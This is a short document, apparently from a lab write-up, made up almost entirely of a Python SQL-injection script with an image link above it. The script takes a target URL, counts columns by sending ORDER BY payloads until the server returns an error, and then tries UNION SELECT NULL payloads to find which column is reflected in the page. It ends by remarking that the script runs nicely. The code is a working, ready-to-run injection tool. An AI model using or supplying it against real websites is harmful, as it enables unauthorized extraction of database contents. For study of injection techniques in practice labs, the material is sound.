

SCRIPT
#!/usr/bin/python3
import requests
import sys
from termcolor import colored
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
#This script utilizes order by method for counting columns
if len(sys.argv) < 3:
print("./script <url> <string_you_wish_to_retrieve>")
sys.exit(0)
url = sys.argv[1]
print("[+] Proceeding with injection to Test for number of columns using order by")
num = 1
try:
get_req = requests.get(f"{url}' ORDER BY {num}--", verify=False)
while not "Internal Server Error" in get_req.text:
get_req = requests.get(f"{url}'+ORDER BY+{num}+--", verify=False) # + to urlencode
print(colored(f"\n{get_req.status_code}", 'green', attrs=['bold']))
#print(f"\n{url}' ORDER BY {num}--")
#print(get_req.text)
num += 1
except:
print(colored("[!] something went wrong....", 'red', attrs=['bold']))
num += -2
#Yeah 2 because 1 added at end before exiting loop and 1 more since only on 1+{in column num} we get the error so that works well was 1 less than this
columns = int(num)
print(f"\n[+] The order by method has Found {columns} columns\n")
print("[+] Proceeding with Null Method to Test for column that gets printed\n")
find = sys.argv[2]
def req_chk_text(sql_payload):
get_req = requests.get(f"{url} {sql_payload}", verify=False)
if find.strip("\'") in get_req.text:
return True
#print(colored(f"[+] payload successfull :: ", 'green') + colored(f"{sql_payload}", 'red'))
def test_null_payload(num_column):
for i in range(0, num_column):
pay = ['NULL'] * num_column
pay[i] = find
sql_payload = "' UNION SELECT " + ', '.join(pay) + "--"
#print(sql_payload)
if req_chk_text(sql_payload):
print(colored(f"\n[+] payload successfull :: position::{i+1}--> ", 'green') + colored(f"{sql_payload}", 'red'))
else:
print(colored(f"\n[+] Something went wrong ....", 'red'))
test_null_payload(columns)
And the script runs Nicely
